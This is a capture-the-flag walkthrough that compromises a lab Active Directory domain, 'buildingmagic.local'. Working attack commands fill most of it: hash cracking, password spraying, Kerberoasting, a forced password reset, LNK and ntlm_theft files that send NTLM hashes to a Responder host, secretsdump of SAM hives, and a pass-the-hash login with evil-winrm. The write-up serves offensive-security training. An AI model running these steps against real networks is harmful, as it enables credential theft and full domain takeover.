

# BuildingMagic



## Scope and Objective

Objective: As a penetration tester on the Hack Smarter Red Team, your objective is to achieve a full compromise of the Active Directory environment.

Initial Access: A prior enumeration phase has yielded a leaked database containing user credentials (usernames and hashed passwords). This information will serve as your starting point for gaining initial access to the network.

Execution: Your task is to leverage the compromised credentials to escalate privileges, move laterally through the Active Directory, and ultimately achieve a complete compromise of the domain.

Note to user: *To access the target machine, you must add the following entries to your /etc/hosts file:

- `buildingmagic.local`
- `dc01.buildingmagic.local`

### Leaked Database File:

```bash
id	username	full_name	role		password
1	r.widdleton	Ron Widdleton	Intern Builder	c4a21c4d438819d73d24851e7966229c
2	n.bottomsworth	Neville Bottomsworth Plannner	61ee643c5043eadbcdc6c9d1e3ebd298
3	l.layman	Luna Layman	Planner		8960516f904051176cc5ef67869de88f
4	c.smith		Chen Smith	Builder		bbd151e24516a48790b2cd5845e7f148
5	d.thomas	Dean Thomas	Builder		4d14ff3e264f6a9891aa6cea1cfa17cb
6	s.winnigan	Samuel Winnigan	HR Manager	078576a0569f4e0b758aedf650cb6d9a
7	p.jackson	Parvati Jackson	Shift Lead	eada74b2fa7f5e142ac412d767831b54
8	b.builder	Bob Builder	Electrician	dd4137bab3b52b55f99f18b7cd595448
9	t.ren		Theodore Ren	Safety Officer	bfaf794a81438488e57ee3954c27cd75
10	e.macmillan	Ernest Macmillan Surveyor	47d23284395f618bea1959e710bc68ef
```

### Leaked Password Hashed

```bash
c4a21c4d438819d73d24851e7966229c
61ee643c5043eadbcdc6c9d1e3ebd298
8960516f904051176cc5ef67869de88f
bbd151e24516a48790b2cd5845e7f148
4d14ff3e264f6a9891aa6cea1cfa17cb
078576a0569f4e0b758aedf650cb6d9a
eada74b2fa7f5e142ac412d767831b54
dd4137bab3b52b55f99f18b7cd595448
bfaf794a81438488e57ee3954c27cd75
47d23284395f618bea1959e710bc68ef
```

- Pasted the leaked Hashes https://crackstation.net/ and managed to crack the hashes for  user 	`r.widdleton:lilronron` and `t.ren:shadowhex7`
    
    
    
    - Confirming our creds
        
        ```bash
        nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --shares
        nxc smb buildingmagic.local -u 't.ren' -p 'shadowhex7' --shares
        ```
        
        
        
        - We can confirm a valid username and password for `r.widdleton:lilronron`

## Recon ,Scanning, and Enumeration

### Rustscan

`rustscan -a 10.1.146.129 -- -A`

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2025-12-08 14:35:11Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2025-12-08T14:36:53+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.BUILDINGMAGIC.LOCAL
| Issuer: commonName=DC01.BUILDINGMAGIC.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-02T21:29:10
| Not valid after:  2026-03-04T21:29:10
| MD5:   cb18:d563:ae1d:22d2:bd56:6b1c:ba62:94b1
| SHA-1: 4589:0eef:a106:c58c:d5a7:8fcc:0f87:1da5:1d84:6e69

5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          syn-ack ttl 126 Werkzeug httpd 3.1.3 (Python 3.13.3)
|_http-server-header: Werkzeug/3.1.3 Python/3.13.3
|_http-title: Building Magic Application Portal
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49707/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC

```

- Our scan is pointing us to an active directory with port 88 open.

### Enumerating users

- As a best practice, we can enumerate for other users since `IPC$` has read permissions to it

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --rid-brute \
    | awk -F'[\\()]' '/SidTypeUser/ { print $2 }' > users.txt

```


- We have a list of users and a password `lilronron` , as a best practice, we can attempt to password spray and test for password reuse
    
    ```bash
    nxc smb 10.1.146.129  -u users.txt -p 'lilronron' --continue-on-success
    ```
    
    
    
    - We can confirm that the password is only for user `r.widdleton`

### Generating host files

```bash
nxc smb 10.1.146.129  -u 'r.widdleton' -p 'lilronron' --generate-hosts-file hosts

```


- Though these were provided, its also good we know how to generate them
- Added to `/etc/hosts`

## Checking for quick wins

As best a practice, always check for the following:

- Enumerating other users
- Enumerating for pre-created computer accounts
- Enumerating for `certificate services`
- Enumerating for `ZeroLOgon`
- Enumerating for `Kerberoasting` and `AS-REP` - We can also get this from `Bloodhound`
- Enumerating for `gpp_autologin`

NB - Sometimes not necessary but worth digging into.

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron'  --rid-brute | grep 'SidTypeUser' 
nxc ldap buildingmagic.local -u 'r.widdleton' -p 'lilronron'  --users
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron'  --users

nxc ldap buildingmagic.local -u 'r.widdleton' -p 'lilronron'  -M pre2k
nxc ldap buildingmagic.local -u 'r.widdleton' -p 'lilronron'  -M adcs
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron'  -M zerologon
nxc smb  buildingmagic.local -u 'r.widdleton' -p 'lilronron'  -M gpp_autologin

```

### Enumerating shares


- There is an interesting `File-share` that we need to dig into.
    
    ```bash
    smbclient \\\\10.1.146.129\\File-share -U r.widdleton
    ```
    
    
    
    - Access was denied and i am guessing that the user doesn't have required permissions to access the `File-share.`

## Bloodhound

We can use the creds  `r.widdleton:lilronron` to obtain the loot

```bash
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'lilronron' --bloodhound --collection All --dns-server  10.1.146.129
```


### Bloodhound enumeration

There is a lot we can find and do with bloodhound. My to-do is as below for quick wins

- Check All domain Admins
- Check for all Kerberoastable user accounts
- Find Shortest path to admin


- `r.widdleton` doesnt have any interesting groups and or any outbound object control on it.


- All domains presented here are just but the default ones


- User `r.haggard`  is kerberoastable
- Used the scripts https://github.com/TeneBrae93/offensivesecurity/tree/main/active-directory
- 


- We managed to crack the hash and got the password.

### Confirming the creds for `r.haggard`

```bash
nxc smb buildingmagic.local -u 'r.haggard' -p 'REDACTED' --shares
```


- `File-Share` could contain creds, scripts, config files, automation logs, GPO paths
    
    ```bash
    smbclient \\\\10.1.146.129\\File-share -U r.haggard
    ```
    
    
    
    - Again the user `r.haggard` seem to have no permission to access the share
    - We can also enumerate this `r.haggard`  with bloodhound


- The user `R.HAGGARD@BUILDINGMAGIC.LOCAL` has the capability to change the user `H.POTCH@BUILDINGMAGIC.LOCAL's` password without knowing that user's current password
    
    ```bash
    net rpc password "h.potch" "RedBlue777" \
      -U "buildingmagic.local"/"r.haggard"%"REDACTED" \
      -S 10.1.146.129
    
    ```
    
    
    

### Confirming creds for `h.potch`

```bash
nxc smb buildingmagic.local -u 'h.potch' -p 'RedBlue777' --shares
```


- `h.potch` **now has the golden ticket** into `File-Share` *with `write access*.`
    
    ```bash
    smbclient \\\\10.1.146.129\\File-share -U h.potch
    ```
    
    
    
    - We were able to authenticate and the share is empty..
    - If we have access to a share with `write permissions`, we can put there a malicious file. On the other end we can have responder to catch the hash.
    - We can use `ntlm_thef.py` to perform this exploit https://github.com/Greenwolf/ntlm_theft
    - Or we can also perform Write ShareLNK File Attacks
        
        Write ShareLNK File Attacks
        
        ```bash
        nxc smb buildingmagic.local -u 'h.potch' -p 'RedBlue777' \
            -M slinky \
            -o SERVER=REDACTED SHARE=File-Share NAME=BuildingMagic2
        
        sudo responder -I tun0 -v -dP 
        
        smbclient \\\\10.1.146.129\\File-share -U h.potch
        ```
        
        OR:
        
        ```bash
        ntlm_theft.py --verbose --generate modern --server REDACTED --filename "RedBlue-file"
        
        responder -I tun0
        ```
        
        
        
        - We managed to obtian `h.grangon` hash and we can attempt to crack it.
            
            ```bash
            hashcat -m5600 -a0 <HASH_FILE> /usr/share/wordlist/rockyou.txt
            
            ```
            
            - We managed to obtain the password for `h.grangon.`
            - As a best practice, its always good to test the same password amoungst the users we have.

### Compromising `h.grangon`


- `h.grangon` is a member of remote management users and we can us `Winrm or Rdp`  We can potentially grab our user flag.

```bash
evil-winrm -i 10.1.146.129 -u h.grangon -p REDACTED
```

```bash
gci C:\ -Include 'user.txt' -File -Recurse -ErrorAction SilentlyContinue | % { "=== $($_.FullName) ==="; gc -Raw -Encoding UTF8 $_.FullName }
```


Horray we have our user flag!!!!


- We can see that `a.flatch` is part of the users groups which appears to have the root flag.
- We need to find a way to authenticate as `a.flatch`

## Privilege Escalation

- Lets try a password spray for a quick win
    
    ```bash
    nxc smb 10.1.146.129  -u users.txt -p 'REDACTED' --continue-on-success
    ```
    
    
    
    - The password is only for grangon


- We do have `SeBackupPrivilege` , this privilege lets you **read ANY file on the system**, even ones you normally can’t.
- Can also lead to full Local SYSTEM compromise  and often leads to `DCSync`  on a Domain Controller.


```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```


- We obtained an Admin hash and we can test this with `a.flatch` since the root flag in located there.
- We can assume that `a.flatch` is also part of Admins or is an Admin,


- Indeed `a.flatch` is a member of Administrators.
    
    ```bash
    evil-winrm -i 10.1.146.129 -u a.flatch -H REDACTED
    ```
    
    ```bash
    gci C:\ -Include 'root.txt' -File -Recurse -ErrorAction SilentlyContinue | % { "=== $($_.FullName) ==="; gc -Raw -Encoding UTF8 $_.FullName }
    ```
    
    
    
    AND BOOM WE ARE ROOT!!!!!!!!!